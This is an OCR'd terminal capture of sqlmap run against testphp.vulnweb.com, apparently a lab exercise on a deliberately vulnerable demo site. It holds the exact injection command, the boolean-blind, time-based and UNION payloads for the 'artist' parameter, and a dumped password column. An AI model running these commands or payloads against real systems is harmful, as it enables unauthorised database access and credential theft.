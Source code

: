 +-------+
[04:09:30] [INFO] table 'acuart.users' dumped to CSV file 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
[04:09:30] [INFO] fetched data logged to text files under 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'
[04:09:30] [WARNING] your sqlmap version is outdated
[*] ending @ 04:09:30 /2024-11-02/
 
┌──(kali㉿kali)-[~]
└─$ sqlmap -u http://testphp.vulnweb.com/artists.php?artist=1 -D acuart -T users -C pass --dump 
 ___
 __H__ 
___ ___[)]_____ ___ ___ {1.7.8#stable} 
|_ -| . [(] | .'| . | 
|___|_ ["]_|_|_|__,| _| 
 |_|V... |_| https://sqlmap.org 
[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end 
user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and 
are not responsible for any misuse or damage caused by this program
[*] starting @ 04:10:06 /2024-11-02/
[04:10:06] [INFO] resuming back-end DBMS 'mysql' 
[04:10:06] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: artist (GET)
 Type: boolean-based blind
 Title: AND boolean-based blind - WHERE or HAVING clause
 Payload: artist=1 AND 3786=3786
 Type: time-based blind
 Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
 Payload: artist=1 AND (SELECT 2060 FROM (SELECT(SLEEP(5)))tCWc)
 Type: UNION query
 Title: Generic UNION query (NULL) - 3 columns
 Payload: artist=-9216 UNION ALL SELECT 
CONCAT(0x716b767671,0x4e4b464b437157776f597753534c536944624d4f70486476575272696e6479797
84a426341426f75,0x7176787171),NULL,NULL-- -
---
[04:10:08] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx 1.19.0, PHP 5.6.40
back-end DBMS: MySQL >= 5.0.12
[04:10:08] [INFO] fetching entries of column(s) 'pass' for table 'users' in database 'acuart'
Database: acuart
Table: users
[1 entry]
+------+
| pass |
+------+
| test |
+------+
[04:10:10] [INFO] table 'acuart.users' dumped to CSV file 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com/dump/acuart/users.csv'
[04:10:10] [INFO] fetched data logged to text files under 
'/home/kali/.local/share/sqlmap/output/testphp.vulnweb.com'
[04:10:10] [WARNING] your sqlmap version is outdated
